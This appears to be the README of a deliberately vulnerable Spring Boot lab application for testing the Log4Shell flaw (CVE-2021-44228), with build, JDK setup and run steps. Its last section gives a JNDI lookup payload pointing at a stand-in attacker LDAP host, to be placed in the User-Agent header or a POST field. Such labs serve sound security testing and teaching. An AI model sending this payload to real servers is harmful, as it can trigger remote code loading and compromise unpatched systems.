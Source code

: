 # ☕ ITF-log4shell-vulnapp

log4j (CVE-2021-44228) Spring-boot web application with vulnerabilities

## Installation

```bash
# requierd JDK version 8
$ git clone https://github.com/Auddn/ITF-log4shell-vulnapp.git
$ cd ITF-log4shell-vulnapp
$ ./gradlew build
$ ./gradlew bootJar
```

If `JDK 8` is not installed in your system, follow:

```bash
$ apt-get update
$ apt-get install openjdk-8-jdk
$ vi /etc/profile
```

and add `$JAVA_HOME` in vim

```bash
$JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"
```

apply and check the `JAVA_HOME` environmental variable.

```bash
$ source /etc/environment
$ echo $JAVA_HOME
/usr/lib/jvm/java-8-openjdk-amd64
```

## Usage

This web application operates based on the Spring-Boot framework and has Tomcat built-in.

If you have successfully completed the installation process, run the application through the following process:

```bash
$ cd ITF-log4shell-vulnapp/build/libs
$ java -jar log4shellVulnapp-0.0.1-SNAPSHOT.jar
```

If you want to change a port of application, you can change a port by edit application.properties

```bash
$ cd ITF-log4shell-vulnapp/src/main/resources
$ vi application.properties
```

and add or edit port setting (default port number is 8080):

```bash
server.port = 8080
```

In order to test for log4j vulnerabilities in this application, the payload must be inserted as follows:

```bash
/GET
User-Agent: ${jndi:ldap://attack.er/path}

/POST
Content-Length: (length)

payload=${jndi:ldap://attack.er/path}
```

